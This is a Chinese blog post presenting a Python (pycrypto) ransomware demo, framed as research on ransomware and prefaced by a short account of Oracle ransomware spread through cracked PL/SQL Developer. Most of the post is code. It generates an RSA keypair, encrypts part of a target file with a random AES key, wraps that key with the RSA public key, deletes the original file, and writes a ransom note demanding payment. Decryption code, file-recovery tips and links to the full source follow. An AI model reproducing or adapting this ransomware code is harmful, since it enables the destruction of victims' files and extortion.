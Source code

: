 ### 杂谈

在前一阵子，领导突然和我说起oracle勒索病毒，好像是有一家医院遭到了黑客的勒索攻击。

oracle勒索病毒就简单的介绍一下，一般是由于下载使用了破解版的PL/SQL导致的。该软件中自带一个AfterConnect.sql自动执行脚本，伪装成官方程序。当发生连接后会自动创建4个存储过程和3个触发器。当你的数据库满足其中触发器的条件，触发器就会调用存储过程对你的数据进行加密备份并删除原表。然后黑客就会留下联系方式对你进行勒索。

上面简单介绍了下oracle勒索病毒。但是这篇文章的重点不是这个，而是另一种通过RSA+AES加密你的文件，对你进行勒索。

那接下来我就来介绍一下我用Python实现对文件的加密解密还原勒索的过程。

### 准备工作

首先是准备Python环境，这边就不赘述了。

这时候我们需要pycrypto模块。pycrypto模块是python中用来处理加密解密等信息安全相关的一个很重要模块。

```
pip install pycrypto
```

可能会提示没有对应vs，下载安装Python 2.7 : Microsoft Visual C++ Compiler for Python 2.7 (网址：aka.ms/vcpython27)

我们运用到该模块的对称加密算法AES，公钥加密算法RSA。

### 实现原理

对文件进行加密勒索，我们是先使用对称密钥对文件前面部分字节进行加密，然后再用RSA算法生成的公钥对对称密钥进行加密。（这边的过程有点像HTTPS的交互过程）然后文件加密后的内容、加密的对称密钥以及未被加密的内容组成新的文件，删除原文件。这时候就会发现加密后的文件已经打不开了，只能够通过RSA生成的私钥进行解密重组才能看到原来的内容。而私钥是留在黑客手中的，这时候就已经被黑客给勒索了。

![1551232083227](assets/1551232083227.png)

### 实现过程

#### 加密过程

- 生成RSA密钥对，并把公钥和私钥写到对应文件中

```
rsa=RSA.generate(1024)
#生成私钥
private_pem = rsa.exportKey()
with open('C:\Users\\fandashen\Desktop\\attacker\master-private.pem', 'w') as f:
    f.write(private_pem)
#生成公钥    
public_pem = rsa.publickey().exportKey()
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\master-public.pem', 'w') as f:
    f.write(public_pem)
```

- 随机生成一个十六位密钥

```
 field=string.letters+string.digits #构建所有大小写字母和数字的字符集
 Dkey=''.join(random.sample(field,16))
```

- 使用AES加密算法对文件进行加密

```
f1=open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png','rb') #二进制格式读取需要加密的文件
all = f1.read()
t1=all[0:16] #取出前16位字符给t1
t2=all[16:] #不加密的文件内容
f1.close()

cryptor = AES.new(Dkey, AES.MODE_CBC, Dkey)
length = 16
count = len(t1)
if(count % length != 0) :
    add = length - (count % length)
else:
    add = 0
t1 = t1 + ('\0' * add) #加密函数，如果t1不是16的倍数【加密文本text必须为16的倍数！】，那就补足为16的倍数
entext = b2a_hex(cryptor.encrypt(t1)) #加密的文件内容
#AES加密时候得到的字符串不一定是ascii字符集的
#统一把加密后的字符串转化为16进制字符串
```

- 用公钥对AES的对称密钥进行加密

```
rsakey = RSA.importKey(public_pem) #读取到公钥
cipher = Cipher_pkcs1_v1_5.new(rsakey) #生成对象
cipher_text = base64.b64encode(cipher.encrypt(Dkey)) #加密的对称密钥
#进行加密，由于单使用RSA加密生成的字符串有乱码，再使用base64进行一次加密
```

- 将之前加密的文件内容，加密的对称密钥及未被加密的内容，重写成一个文件，并删除原文件，留下勒索提示文件，我们的加密过程就完成了

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943_en.NONO','wb') as f:
    f.write(entxt+cipher_text+t2)
#删除原文件    if(os.path.exists('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png')):
    os.remove('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png')
#联系途径
with codecs.open('C:\Users\\fandashen\Desktop\\ransom\\attack\\readme.txt','w','utf-8') as f:
    f.write(u'你的文件已经被我加密了，请联系我的邮箱abc@123.com，支付相应费用来获取解密途径！')
```

此时我们电脑桌原来的文件1548138662943.png被我文加密成1548138662943_en.NONO，且已经无法打开。

#### 解密过程

- 首先需要以二进制方式读取被加密的文件，根据加密字段长度，将文件分成三部分。第一部分是AES加密过的文件内容，第二部分是公钥加密过的对称密钥，第三部分是未加密过的内容。

```
f1=open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943_en.NONO','rb')
all = f1.read()
t1=all[0:32]
t2=all[32:204]
t3=all[204:]
f1.close()
```

- 然后就需要通过黑客将私钥拿到，对对称密钥进行解密。

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\master-private.pem') as f:
    key = f.read()
    rsakey = RSA.importKey(key) #读取到私钥
    cipher = Cipher_pkcs1_v1_5.new(rsakey) #生成对象
    Dkey = cipher.decrypt(base64.b64decode(t2),'ERROR') #解密得到对称密钥
```

- 再通过对称密钥对加密过的文件进行解密，得到原来的文件内容

```
cryptor = AES.new(Dkey, AES.MODE_CBC, Dkey)
detext = cryptor.decrypt(a2b_hex(text)).rstrip('\0') #去掉末尾补足符
```

- 将解密后的文件内容和未加密的文件内容，重写到新的文件中，恢复文件名。文件就能够可以打开，且与内容与原文件一样。

```
with open('C:\Users\\fandashen\Desktop\\ransom\\attack\\1548138662943.png','wb') as f:
    f.write(detxt+t3)
```

再来就是把除了原文件其他生成的文件删除就可以了。



**这样一样，就完成了文件的加密解密过程。**



### 解决办法

想直接解密文件内容基本不可能。

病毒使用的加密方案都是目前成熟的解决方案，只要实现没有明显漏洞，就不可能被破解，实际上常见的勒索病毒目前都没有被破解。

但是要找回文件可以从两个方面入手：

- 病毒删除文件后往往没有对原文件进行覆盖操作，使用数据恢复软件或者找专门的数据恢复机构有一定几率能找回原文件。目前很多宣称能找回WannaCry病毒加密文件的工具都是这种方式。

- 随机数产生器可能存在漏洞，在产生随机数后随机数会被保留在内存中，于是可以通过读取内存的方式将里面的随机数读出来，从而获得会话私钥，解密文件。这个方法只对使用系统随机生产生器的病毒有效，而且对系统版本有要求，中毒后机器也不能重启过。





附上源码：

[RSA+AES_encrypt.py](https://github.com/leadsino/fanzhenlong/blob/master/%E5%8B%92%E7%B4%A2%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6/RSA%2BAES_encrypt.py)

[RSA+AES_decrypt.py](https://github.com/leadsino/fanzhenlong/blob/master/%E5%8B%92%E7%B4%A2%E7%97%85%E6%AF%92%E7%A0%94%E7%A9%B6/RSA%2BAES_decrypt.py) 
​      